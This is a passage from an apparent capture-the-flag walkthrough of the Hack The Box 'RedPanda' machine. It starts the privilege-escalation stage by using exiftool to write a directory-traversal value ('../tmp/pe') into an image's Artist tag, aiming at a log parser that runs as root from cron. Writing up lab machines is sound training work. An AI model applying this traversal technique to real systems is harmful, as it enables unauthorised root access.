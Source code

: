 ```xml
```

OK. I think that enough. We have write access to `redpanda.log` file, and this file is parse by a program that running in crontab with `root` account.

# Escalate Privilege
## Prepare the payload
1. The image payload
- We create image with `Artist` tag. Cause we don't have write permission on `/credits/` to update the value of xml. We need to use directory travesal to another directory that we can write the data. We can use `/home/woodenk/` or `/tmp`. I will chose `/tmp`.
- We using `exiftool` for write tags to our payload image.
```sh
┌──(kali㉿kali)-[~/Workspace/labs-htb/RedPanda]
└─$ exiftool -Artist="../tmp/pe" pe.jpg
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
        LANGUAGE = (unset),
        LC_ALL = (unset),
        LC_CTYPE = "UTF-8",
        LC_TERMINAL = "iTerm2",
        LANG = "en_US.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to a fallback locale ("en_US.UTF-8").
    1 image files updated

┌──(kali㉿kali)-[~/Workspace/labs-htb/RedPanda]
└─$ exiftool pe.jpg
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
        LANGUAGE = (unset),
        LC_ALL = (unset),
        LC_CTYPE = "UTF-8",
        LC_TERMINAL = "iTerm2",
        LANG = "en_US.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to a fallback locale ("en_US.UTF-8").
ExifTool Version Number         : 12.44
File Name                       : pe.jpg
Directory                       : .
File Size                       : 128 kB
File Modification Date/Time     : 2022:08:30 06:10:36-04:00
File Access Date/Time           : 2022:08:30 06:10:36-04:00
File Inode Change Date/Time     : 2022:08:30 06:10:36-04:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
Exif Byte Order                 : Big-endian (Motorola, MM)
X Resolution                    : 72
Y Resolution                    : 72
Resolution Unit                 : inches
Artist                          : ../tmp/pe
Y Cb Cr Positioning             : Centered
Image Width                     : 1280
Image Height                    : 853
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 1280x853
```